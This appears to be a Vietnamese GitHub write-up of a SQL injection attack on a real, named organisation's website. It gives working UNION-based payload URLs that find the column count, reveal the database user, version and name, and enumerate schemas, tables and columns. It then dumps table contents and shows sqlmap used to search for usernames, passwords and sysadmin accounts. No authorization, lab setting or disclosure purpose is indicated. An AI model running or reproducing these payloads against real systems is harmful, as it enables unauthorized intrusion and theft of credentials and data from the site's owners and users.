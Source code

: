 # TỔNG QUAN # 

Kiểm tra trên web "Computer Society of India" `https://csi-india.org/news/index.php?id=18`

![image](https://github.com/user-attachments/assets/089b7ff5-3f94-4575-a9ee-1e0876ec59a3)

## CÁC BƯỚC

* [Dò tìm số cột](#dò-tìm-số-cột)
* [Kiểm tra database, version, user](#kiểm-tra-database-version-user)
* [Trích xuất cơ sở dữ liệu](#trích-xuất-cơ-sở-dữ-liệu)
* [Sử dụng `sqlmap`](#sử-dụng-sqlmap)

## Dò tìm số cột

`https://csi-india.org/news/index.php?id=18+ORDER+BY+1`

![image](https://github.com/user-attachments/assets/1db5d0ae-72f2-432c-abeb-fb572dd2c1ea)

=> Số cột lớn hơn 1

`https://csi-india.org/news/index.php?id=18+ORDER+BY+10`

![image](https://github.com/user-attachments/assets/84374454-20c5-4db2-a2c6-23d905c49bcf)

=> Số cột bé hơn 10

`https://csi-india.org/news/index.php?id=18+ORDER+BY+8`

![image](https://github.com/user-attachments/assets/cccfee89-cf9f-4c3a-be8a-fc30af8329e1)

=> Số cột là 8    
## Kiểm tra database, version, user 

**1. User**

`https://csi-india.org/news/index.php?id=-18+UNION+SELECT+1,2,3,user(),5,6,7,8`

![image](https://github.com/user-attachments/assets/75227e5b-953a-48dd-a56a-c49d4b1b8725)

**2. Version**

https://csi-india.org/news/index.php?id=-18+UNION+SELECT+1,2,3,version(),5,6,7,8

![image](https://github.com/user-attachments/assets/e623bf1a-727f-4a23-b0a4-2b80b280a6cb)

**3. Database**

https://csi-india.org/news/index.php?id=-18+UNION+SELECT+1,2,3,database(),5,6,7,8

![image](https://github.com/user-attachments/assets/12a78158-d713-44f4-add8-74f6ae91d9fa)

## Trích xuất cơ sở dữ liệu

**1. Liệt kê các database**

`https://csi-india.org/news/index.php?id=-18+UNION+SELECT+1,2,3,group_concat(0x7c,schema_name,0x7c),5,6,7,8+from+information_schema.schemata`

![image](https://github.com/user-attachments/assets/5780aae7-dc2c-482a-aea2-d3aa8ae689f1)

**2. Liệt kê các bảng**

`https://csi-india.org/news/index.php?id=-18+UNION+SELECT+1,2,3,group_concat(0x7c,table_name,0x7c),5,6,7,8+from+information_schema.tables+where+table_schema='csiindia_portal'`

![image](https://github.com/user-attachments/assets/182e61f9-cd2a-41c6-850b-e4eb2154eecf)

**3. Liệt kê các cột trong bảng**

`https://csi-india.org/news/index.php?id=-18+UNION+SELECT+1,2,3,group_concat(0x7c,column_name,0x7c),5,6,7,8+from+information_schema.columns+where+table_name='category'`

![image](https://github.com/user-attachments/assets/5af91210-33b2-48bd-82c6-bb20f117567b)

**4. Trích xuất dữ liệu bất kì**

`https://csi-india.org/news/index.php?id=-18+UNION+SELECT+1,2,3,cat_name,5,6,7,8+from+category`

![image](https://github.com/user-attachments/assets/bd7fcad5-1cec-4fb6-b54d-4b3411818224)

## Sử dụng `sqlmap`

**1. Trích xuất database:**

![image](https://github.com/user-attachments/assets/9eb20627-fe43-4f2d-a951-70ad997a8b40)

**2. Tìm kiếm thông tin về username, password, tài khoản sysadmin**

![image](https://github.com/user-attachments/assets/5175361d-dbfc-4e58-816b-a83455ffbf2f)

![image](https://github.com/user-attachments/assets/e6f0927a-96ea-4981-8369-1ce2c3304d79)

![image](https://github.com/user-attachments/assets/0f51fac4-636d-4fd7-9484-61a5228846b6)

![image](https://github.com/user-attachments/assets/8e4d4498-7349-4421-8d82-4454e266ccb6)



